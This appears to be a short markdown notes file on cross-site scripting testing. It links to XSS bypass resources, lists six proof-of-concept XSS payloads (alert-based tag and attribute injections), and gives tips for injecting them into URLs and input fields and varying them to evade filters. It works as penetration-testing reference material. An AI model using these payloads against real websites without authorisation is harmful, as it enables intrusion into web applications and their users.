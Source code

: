 # secure

## XSS

- https://github.com/s0md3v/MyPapers/tree/master/Bypassing-XSS-detection-mechanisms
- https://brutelogic.com.br/blog/xss-cheat-sheet/
  - ```
    "><img src onerror=alert(1)>
    "autofocus onfocus=alert(1)//
    </script><script>alert(1)</script>
    '-alert(1)-'
    \'-alert(1)//
    javascript:alert(1)
    ```
  - Try it on:
    - URL query, fragment & path;
    - all input fields.
  - Try to change
    - " for ' and vice versa according to where injection lands
    - alert(1) for (confirm)(1) or confirm\`1\`
    - // for `<!--`
    - spaces for / or %0A, %0C or %0D.
